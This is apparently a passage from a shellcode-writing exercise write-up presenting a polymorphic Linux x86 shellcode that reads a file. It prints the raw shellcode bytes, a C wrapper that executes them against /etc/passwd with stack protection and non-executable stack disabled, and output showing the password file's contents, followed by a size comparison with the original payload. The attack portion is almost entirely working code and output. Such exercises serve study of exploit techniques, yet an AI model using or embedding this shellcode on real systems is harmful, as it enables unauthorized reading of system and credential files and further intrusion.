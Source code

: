 ### Compiling and Execution

```sh
$ ./compile.sh file-reader
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
"\x31\xc0\xeb\x20\x5b\xb0\x05\xcd\x80\x89\xc6\x89\xf3\xb0\x03\x89\xe1\xb2\x01\xcd\x80\x08\xc0\x74\x08\xb0\x04\x88\xd3\xcd\x80\xeb\xea\x40\xcd\x80\xe8\xdb\xff\xff\xff"
```
<p style="text-align: justify;">Shellcode.c wrapper file content (note the file name after shellcode):</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xeb\x20\x5b\xb0\x05\xcd\x80\x89\xc6\x89\xf3\xb0\x03\x89\xe1\xb2\x01\xcd\x80\x08\xc0\x74\x08\xb0\x04\x88\xd3\xcd\x80\xeb\xea\x40\xcd\x80\xe8\xdb\xff\xff\xff"
"/etc/passwd";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Execution:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode

Shellcode Length:  52
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
[..]
```

### Summary

Original shellcode length:

- **65 bytes**

Length of polymorphic shellcode:

- **41 bytes**

Difference in length:

- **~37% shorter!**

### Pwned.
